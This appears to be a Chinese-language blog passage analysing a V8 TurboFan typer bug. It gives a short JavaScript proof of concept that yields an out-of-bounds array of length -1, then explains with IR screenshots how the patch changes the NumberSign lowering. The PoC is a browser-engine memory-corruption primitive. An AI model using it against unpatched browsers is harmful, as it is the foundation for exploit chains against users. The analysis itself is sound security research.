 ### **最终的 oob poc**

```
function foo(a) {
  var y = 0x7fffffff;
  if (a == NaN) y = NaN; 
  if (a) y = -1;
  let z = (y + 1) + 0;
  let l = 0 - Math.sign(z);
  let arr = new Array(l);
  arr.shift();
  return arr;
}
%PrepareFunctionForOptimization(foo);
foo(true);
%OptimizeFunctionOnNextCall(foo);
print(foo(false).length);
```

事实上很有趣的一件事情是:

1.  Retype 前后的 NumberSign 的范围都是 (0,1)，let l = 0 - Math.sign(z) 在 Retype 前后的范围都是(-1,0)，没有变化。
    
2.  补丁前后，影响的也只是 let z = (y + 1) + 0 的范围从 (0, 2147483647)，变成了 (0, 2147483648)，补丁前后不影响 NumberSign 的范围，所以也不会影响 CheckBounds 的范围，也就不会影响 array.shift 部分生成的 IR。
    

补丁前:  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7MQ6WQy8ZAjGC0lSTFrKDU62IDQx16SDYfFnAJsnx9REDvLFGuWjiaOicib3xD3vRGYhue3lldWYPFQ/640?wx_fmt=png)

补丁后:  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7MQ6WQy8ZAjGC0lSTFrKDUlic6hG4TEbWNk7EuUhsJICeX6jywtv0Jgr4PmicENFUVCJciaH6bxLAww/640?wx_fmt=png)

所以无论补丁前还是补丁后，上面 array.shift 部分生成的 IR 都没有变化。  
那么难道补丁之后，我们还可以执行到 StoreField(arr, kLengthOffset, -1);, 从而得到 OOB 吗？毕竟这部分代码都还在，它没有变化。

显然不可能，事实上补丁影响到的是对 NumberSign 的 lower，它会根据以下逻辑来计算出是 - 1 还是 1。

```
Int32Add...
if ChangeInt32ToFloat64 < 0:
    Select -1
else:
    Select 1
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7MQ6WQy8ZAjGC0lSTFrKDU1PPAyxOiblicb1SJdwOEfx8hMqYXd7u8iaU2LEOe5AxeXibzoNcQ04OO2A/640?wx_fmt=png)

在补丁前，Int32Add(0x7fffffff, 1) 之后 ChangeInt32ToFloat64 得到的是 - 0x80000000, 显然小于 0，得到 - 1，然后带入 let l = 0 - Math.sign(z) 运算得到 length 为 1，于是可以通过 CheckBounds 的检查，最后实现 OOB。

但若是在补丁后，该伪代码将变成

```
Int32Add...
if ChangeUInt32ToFloat64 < 0:
    Select -1
else:
    Select 1
```
